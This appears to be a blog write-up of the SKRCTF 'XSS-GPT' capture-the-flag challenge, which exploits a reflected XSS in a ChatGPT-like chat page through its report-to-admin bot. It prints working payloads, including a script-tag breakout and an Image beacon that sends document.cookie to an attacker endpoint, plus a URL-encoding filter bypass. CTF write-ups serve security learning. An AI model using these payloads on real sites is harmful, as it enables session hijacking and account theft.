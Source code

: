 ```yaml
---
layout: post
title: "SKRCTF: XSS-GPT"
date: 2023-10-01
categories:
  - CTF WriteUp
---
```


![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-instruction.png){:.align-center}

This is a Web category challenge. From the name of this challenge, we know that this challenge involves exploiting a Cross-Site Scripting (XSS) vulnerability. The instructions said "*I built a chatgpt website*" and "*report to me if you found any bug*". This means that he is the administrator of the website, and if we found an  XSS vulnerability in the website, we need to report it to him. The website :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-webpage.png){:.align-center}

The webpage looks like it's a chat application, which looks a little similar to ChatGPT. Testing this chat application :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-webpage.png){:.align-center}

It looks like the website asks for an API key before the user can use this web-based chat application. If we look at the HTML code of this website, we found that we don't need a real OpenAI API key because this website uses a placeholder value `("Bearer None")` for the API key, which is not a valid API key. Try to use `test123` for the API key :

- `http://skrctf.me:4000/?apiKey=test123`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-api-key-failed.png){:.align-center}

The first hint indicates that we should manipulate the URL parameter :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-hint1.png){:.align-center}

This challenge is named "XSS-GPT", so we can focus on finding the XSS vulnerability on this website. Testing a basic XSS attack :

- `<script>alert("basic-xss")</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-result.png){:.align-center}

We get an error-like message. However, it's not an error. HTML code :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-html.png){:.align-center}

At line 11, the  opening `<script>` tag was used. The tag was then closed by our basic XSS script (`</script>`). Everything after the closing tag will become the content of the website. So we need to add the closing tag (`</script>`) before our XSS script :

- `</script><script>alert("basic-xss")</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-success.png){:.align-center}

We successfully triggered a Reflected XSS. This means that we have found a Reflected XSS vulnerability. So we need to report to the admin of the website. There is a button named "*Report Admin*" at the bottom right :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-button.png){:.align-center}

We need to know what this button does (in the HTML code) :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-button-source.png){:.align-center}

It looks like the button executes `reportAdmin()` function. So we need to know what this function does. In the HTML code, before the HTML Style :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-function.png){:.align-center}

In `reportAdmin()` function :

1) **API Key Extraction** : The function extracts the API key from the URL using `const queryParams = URLSearchParams(window.location.search);` and `const apiKey = queryParams.get("apiKey")`.
2) **XHR Request** : It creates an XMLHttpRequest object (`xhttp`) to send a POST request to the "`reportAdmin`" endpoint.
3) **Request Data** : It sends the API key as a parameter in the request body using `xhttp.send("key="+encodeURIComponent(apiKey));`.
4) **Response Handling** : The function listens for the response and displays an alert message with "*Reported to admin!*" if the response status is 200.

The second hint indicates that we need to steal admin's cookie :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-hint2.png){:.align-center}

Under the second hint, we were given a JavaScript file, "*bot.js*" :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-bot-js.png){:.align-center}

The provided JavaScript file appears to be a PhantomJS script. PhantomJS is a **headless web browser scriptable with JavaScript**, often used for automation tasks. So this "*bot.js*" is a piece of PhantomJS script behind the website that acts as "*admin*" (the admin is a bot). The script uses `phantom.adCookie` to set a cookie named '*flag*' with a value of '*this_is_not_the_flag*'. This information indicates that the value of admin's cookie is our flag. So we need to steal the admin's cookie.

We can ease our task with Burp Suite. Intercepting a request :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-foxy.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-intercept.png){:.align-center}

Right-click on Burp Suite > Send to Repeater. Go to the Repeater tab. Now we can modify the request body with our XSS script. First, we need to test if our server endpoint receives a GET request from admin. We can use [Webhook.site](https://webhook.site/) as our server endpoint to monitor any request  :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-webhook.png){:.align-center}

Use the unique URL provided in [Webhook.site](https://webhook.site/) as our server endpoint :

- `</script><script>var i=new Image;i.src="http://our-server-endpoint";</script>`
- [Steal Cookie with Reflected XXS](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss.png){:.align-center}

As we can see, our server endpoint received a GET request from admin :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-triggered.png){:.align-center}

Now, we can add `+document.cookie;` in our XSS script. However, after we inject our XSS script with `+document.cookie;` and get the "*Reported to admin!*" message (which indicates that the injection was successful), our server endpoint no longer receives a GET request from admin. This indicates that there is some kind of input filtering that filters `+document.cookie;`. We can use basic encoding, such as URL encoding. On Burp Suite, highlight `+document.cookie;`, right-click > Convert selection > URL > URL-encode key characters.

- `</script><script>var i=new Image;i.src="http://our-server-endpoint/?"+document.cookie;</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-steal-cookie.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-steal-cookie-success.png){:.align-center}

We successfully steal the admin's cookie!
## Walkthrough

https://drive.google.com/file/d/1-zrxlZRYWRVV7-kFzA0mA6ENO9XpE6HR/view?usp=drivesdk
